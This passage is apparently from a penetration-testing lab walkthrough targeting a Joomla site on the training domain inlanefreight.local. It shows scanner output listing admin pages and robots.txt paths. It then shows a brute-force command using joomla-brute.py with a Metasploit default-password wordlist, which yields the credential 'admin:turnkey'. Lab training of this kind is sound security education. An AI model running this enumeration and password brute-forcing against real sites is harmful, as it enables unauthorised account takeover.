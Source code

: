 ```
http://app.inlanefreight.local/administrator/templates
http://app.inlanefreight.local/images/banners    
 
  
[+] Checking apache info/status files     
[++] Readable info/status files are not found    
 
[+] admin finder  
[++] Admin page : http://app.inlanefreight.local/administrator/   
 
[+] Checking robots.txt existing
[++] robots.txt is found 
path : http://app.inlanefreight.local/robots.txt 
 
Interesting path found from robots.txt    
http://app.inlanefreight.local/joomla/administrator/    
http://app.inlanefreight.local/administrator/
http://app.inlanefreight.local/bin/
http://app.inlanefreight.local/cache/     
http://app.inlanefreight.local/cli/
http://app.inlanefreight.local/components/
http://app.inlanefreight.local/includes/  
http://app.inlanefreight.local/installation/     
http://app.inlanefreight.local/language/  
http://app.inlanefreight.local/layouts/   
http://app.inlanefreight.local/libraries/ 
http://app.inlanefreight.local/logs/      
http://app.inlanefreight.local/modules/   
http://app.inlanefreight.local/plugins/   
http://app.inlanefreight.local/tmp/

[+] Finding common backup files name
```

```
sudo ./joomla-bruteforce/joomla-brute.py -u http://app.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin
admin:turnkey
```











